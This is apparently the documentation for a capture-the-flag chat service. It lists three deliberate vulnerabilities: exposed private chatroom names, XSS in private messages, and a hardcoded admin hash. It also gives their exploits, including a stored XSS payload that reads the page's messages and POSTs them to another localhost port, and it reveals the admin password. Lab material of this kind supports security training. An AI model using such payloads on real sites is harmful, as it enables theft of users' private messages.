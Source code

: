 Service documentation
======================
# Vulnerabilities

## Access to private chatrooms

- Category: Misconfiguration
- Difficulty: Easy

Profiles list all chatrooms a user is a member of. This includes private chatrooms. Using the name of the chatroom, it is possible to join the chatroom.

## Cross-Site Scripting (XSS)

- Category: XSS
- Difficulty: Medium

The new private message popup is vulnerable to XSS. The message is not sanitized and can be used to execute arbitrary JavaScript code.

## Admin password

- Category: Information disclosure
- Difficulty: Very Hard

The hashed admin password is written in the source code. Hash cannot be cracked using online tools.

# Exploits

## Access to private chatrooms
    get http://localhost:3000/profiles/foo
    get http://localhost:3000/chatrooms/secret
## XSS
    post http://localhost:3000/messages
    body: {"recipient":"foo", "message":"<script>function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:6452/', {method: 'POST', body:'username=' + getText(),headers: { 'Content-Type': 'application/x-www-form-urlencoded', },}); </script>"}
## Admin password
    password is "C0rr3ctH0rs3BatterStaple"


